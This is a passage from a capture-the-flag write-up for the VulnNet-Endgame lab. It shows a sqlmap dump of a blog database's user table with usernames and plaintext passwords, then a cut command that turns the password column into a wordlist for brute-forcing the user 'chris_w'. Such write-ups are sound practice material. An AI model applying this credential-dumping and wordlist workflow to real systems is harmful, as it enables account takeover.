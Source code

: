 ```
| fjosefsb7          | zzh9wheBjX          |
| tmiskellyb8        | sAGTlyBrb5r         |
| nallrightb9        | 3uUPdL              |
| hlevermoreba       | fp2LW0x             |
| celgerbb           | IKhg7D              |
| frustedbc          | Tjyu2Ch2            |
| imeneghibd         | NgKgdeKRVEK         |
| vgouninbe          | wGWMg3d             |
| cbartoschbf        | ruTxBc2n85          |
| lcordonbg          | ZydELwZFV2          |
| dappsbh            | ROfVmvZSYS          |
| zduchanbi          | B4SBGt5yAD          |
| jfraybj            | zhE95JJX9l          |
| mlanchesterbk      | nXSVHhVW9S          |
| cgylesbl           | NCeU070             |
| cbonnifacebm       | WzkvfoedkXJx        |
| btoppasbn          | ktPBpK1             |
| mdurrettbo         | 8fCXE6BF9gj         |
| skilroybp          | cSAjOy              |
| uvonderemptenbq    | HLUHZ9oQ            |
| dvinsenbr          | gTc7TiSsd2          |
| ltiltbs            | 7yQ0b1B             |
| dsimcoebt          | SXD1eC6ysa          |
| wfrailbu           | bgb084kq            |
[...]
[01:15:43] [INFO] table 'blog.users' dumped to CSV file '/root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv'
```

That's a LOT of users and the password!

Hmm... Let's take the `password` column's data as the **password wordlist** for the user `chris_w`? We can clean that up via `cut`.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# cat /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv | cut -d "," -f2 > passlist.txt

┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# cat passlist.txt 
password
d5aa4AsdO
HCeByMT
YffkBZ
ZJpyxy
c7I4LAkVMIEN
75mupA
1hoUq2Q
TB5ziSGLU3
BdZ1sipbGkR7
[...]
```
